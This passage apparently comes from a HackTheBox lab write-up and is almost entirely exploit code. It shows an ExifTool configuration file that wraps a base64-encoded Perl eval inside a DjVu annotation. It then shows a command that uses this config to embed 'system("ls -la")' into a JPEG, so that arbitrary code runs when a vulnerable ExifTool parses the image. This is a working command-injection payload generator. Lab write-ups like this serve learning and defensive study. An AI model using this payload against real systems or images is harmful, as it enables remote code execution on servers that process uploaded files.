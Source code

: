 ```bash
❯ catn eval.config
%Image::ExifTool::UserDefined = (
    'Image::ExifTool::Exif::Main' => {
        0xc51b => {
            Name => 'eval',
            Binary => 1,
            Writable => 'undef',
            WriteGroup => 'IFD0',
            ValueConvInv => sub {
                use MIME::Base64;
                my $val = shift;
                $encoded = encode_base64($val);
                my $meta = qq/(metadata(Copyright "\\\n" eq ''; return (eval { use MIME::Base64; eval(decode_base64(q%$encoded%)); });#"))/;
                my $len = pack "N", length($meta);
                my $payload = qq/AT&TFORM\x00\x00\x00\x08DJVUANTa$len$meta/;
                return $payload;
            }
        }
    }
)
```

![](/assets/images/htb-writeup-meta/web12.png)

```bash
❯ exiftool -config eval.config runme.jpg -eval='system("ls -la")'
    1 image files updated
```

![](/assets/images/htb-writeup-meta/web10.png)

